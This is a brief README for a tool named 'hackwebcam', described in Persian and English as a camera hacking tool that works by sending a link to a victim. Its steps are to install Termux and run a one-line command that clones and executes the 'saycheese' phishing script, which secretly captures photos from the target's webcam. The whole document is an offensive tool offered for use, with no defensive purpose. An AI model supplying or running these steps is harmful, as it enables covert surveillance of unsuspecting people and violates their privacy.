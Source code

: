 # hackwebcam
ابزار هک دوربین با ارسال لینک به قربانی - Camera hacking tool by sending link to target


1- https://github.com/HACKGM/cam/blob/master/on-hotspot.png

2- Download termux

3- apt update && apt upgrade && pkg install wget php git openssl curl && git clone https://github.com/thelinuxchoice/saycheese && cd saycheese && bash saycheese.sh
